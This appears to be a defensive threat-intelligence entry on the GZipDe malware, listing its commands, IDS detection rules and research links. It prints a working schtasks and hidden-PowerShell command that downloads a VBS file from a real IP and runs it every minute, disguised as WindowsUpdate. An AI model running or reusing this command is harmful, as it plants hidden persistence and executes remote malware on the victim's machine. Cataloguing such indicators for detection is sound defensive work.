 ## GZipDe


#### Commands
---

* Schtasks.exe

1.

```
/Create /sc MINUTE /MO 1 /TN WindowsUpdate /TR "Powershell -W Hidden (New-Object System.Net.WebClient).DownloadFile(\\\"http://118.193.251.137/dropbox/?p=BT67HU78HZ\\\",\\\"$env:public\svchost325.vbs\\\");(New-Object -com Shell.Application).ShellExecute(\\\"$env:public\svchost325.vbs\\\");" /F
```

* Powershell.exe

1.

```
-W Hidden (New-Object System.Net.WebClient).DownloadFile(\\\'http[:]//118.193.251[.]137/dropbox/?p=BT67HU78HZ\\\',\\\'$env:public\svchost325.vbs\\\');(New-Object -com Shell.Application).ShellExecute(\\\'$env:public\svchost325.vbs\\\');' /F
```

#### Regular Expressions
---

``
``

#### Resources
---

Technical write-ups:
* https://www.alienvault.com/blogs/labs-research/gzipde-an-encrypted-downloader-serving-metasploit

Sandbox reports:
* https://app.any.run/tasks/e918c80e-ce60-42d6-b365-8fd3256420f0

Notes:

@Alianvault

#### Network Detection

Multi-purpose:

* AV ATTACK_RESPONSE Metasploit Reverse Shell Verification (Echo)

* ET ATTACK_RESPONSE Metasploit/Meterpreter - Sending metsrv.dll to Compromised Host

* ET ATTACK_RESPONSE Metasploit Meterpreter Reverse HTTPS certificate

Dedicated:

* alert http $HOME_NET any -> $EXTERNAL_NET any (msg:"AV TROJAN GZipDe MacroMalware CnC Checkin"; flow:established,to_server; content:"/dropbox/?p="; http_uri; depth:12; content:!"User-Agent|3a| "; http_header; content:!"Referer"; http_header; pcre:"^/\/dropbox\/\?p=[a-zA-Z0-9]*$/U"; reference:md5,951d9f3320da660593930d3425a9271b; classtype:trojan-activity; sid:xxx; rev:1;)

* alert http $HOME_NET any -> $EXTERNAL_NET any (msg:"AV TROJAN GZipDe MacroMalware Payload Request"; flow:established,to_server; content:"/dropbox/file"; depth:13; http_uri; content:".exe"; http_uri; distance:0; isdataat:!1,relative; content:!"User-Agent|3a| "; http_header; content:!"Referer"; http_header; reference:md5,951d9f3320da660593930d3425a9271b; classtype:trojan-activity; sid:xxx; rev:1;)

 
